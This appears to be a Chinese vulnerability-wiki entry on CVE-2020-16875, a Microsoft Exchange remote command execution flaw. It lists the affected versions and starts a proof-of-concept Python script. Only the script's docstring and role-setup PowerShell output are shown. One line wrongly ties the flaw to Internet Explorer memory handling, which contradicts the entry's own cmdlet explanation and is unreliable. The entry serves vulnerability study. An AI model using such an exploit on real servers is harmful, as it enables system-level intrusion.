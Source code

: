 （CVE-2020-16875）Microsoft Exchange 远程命令执行漏洞
=====================================================

一、漏洞简介
------------

有安全人员公开了Exchange
Server远程代码执行漏洞（CVE-2020-16875）的利用程序，此漏洞为微软在9月8日例行月度安全更新中披露；Microsoft
Exchange在Internet
Explorer处理内存中的对象时存在该漏洞。利用此漏洞需要具有以某个Exchange角色进行身份验证的用户权限。

攻击者可通过向受影响的Exchange服务器发送包含特殊的cmdlet参数的邮件来触发此漏洞，成功利用此漏洞的攻击者可在受影响的系统上以system权限执行任意代码。

### 利用条件

需要一个Exchange用户账号

二、漏洞影响
------------

Microsoft:Exchange\_server\_2016: cu16/cu17

Microsoft:Exchange\_server\_2019: cu5/cu6

三、复现过程
------------

需要一个Exchange用户账号。就能在Exchange服务器上执行任意命令。

### poc

> CVE-2020-16875.py

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-16875)MicrosoftExchange远程命令执行漏洞/media/rId26.png)

    #!/usr/bin/env python3
    """
    Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
    Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875

    # Notes:

    The (ab)user needs the "Data Loss Prevention" role assigned and if performing the attack over the ecp interface (this poc) then the user will need an active mailbox.

    [PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"

    Name      AssignedRoles          RoleAssignments                  ManagedBy
    ----      -------------          ---------------                  ---------
    dlp users {Data Loss Prevention} {Data Loss Prevention-dlp users} {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}

    [PS] C:\Windows\system32>Get-RoleGroup "dlp users" | Format-List

    RunspaceId                  : 098e1140-30e3-4144-8028-2174fdb43b85
    ManagedBy                   : {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
    RoleAssignments             : {Data Loss Prevention-dlp users}
    Roles                       : {Data Loss Prevention}
    DisplayName                 :
    ExternalDirectoryObjectId   :
    Members                     : {exchangedemo.com/Users/Harry Mull}
    SamAccountName              : dlp users
    Description                 :
    RoleGroupType               : Standard
    LinkedGroup                 :
    Capabilities                : {}